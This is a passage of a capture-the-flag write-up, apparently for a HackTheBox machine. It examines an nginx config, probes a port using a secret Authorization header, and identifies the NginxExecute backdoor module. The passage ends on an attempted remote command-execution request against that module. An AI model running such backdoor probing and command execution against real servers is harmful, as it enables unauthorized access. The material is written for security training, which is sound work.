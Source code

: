 ```bash
        location ~ [^/]\.php(/|$) {
            fastcgi_index index.php;
            fastcgi_param REQUEST_METHOD $request_method;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param QUERY_STRING $query_string;

            fastcgi_pass unix:/tmp/php-fpm.sock;
        }
}

server {
        listen 8080;
        add_header X-Forwarded-Server golang;
        location / {
                proxy_pass http://127.0.0.1:9001;
        }
}

server {
        listen 127.0.0.1:8000;
        location / {
                command on;
        }
}

```

Seems like there is a secret dir on port 4566, we can only access it if we include the secret header. 

```bash
curl -H "Authorization: SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz" http://10.10.11.113:4566

{"status": "running"}
```

But not much else. Let’s investigate the other interesting port, port 8000. There is a strange command on; string. Let’s search up what this could be:

```bash
"command on;" nginx github
```

We find this: https://github.com/limithit/NginxExecute

![image.png]({{ site.baseurl }}/assets/gobox/image%2019.png)

Seems like we can execute command via 

```bash
curl -g "http://localhost:8000/?system.run[id]"

curl: (52) Empty reply from server

```
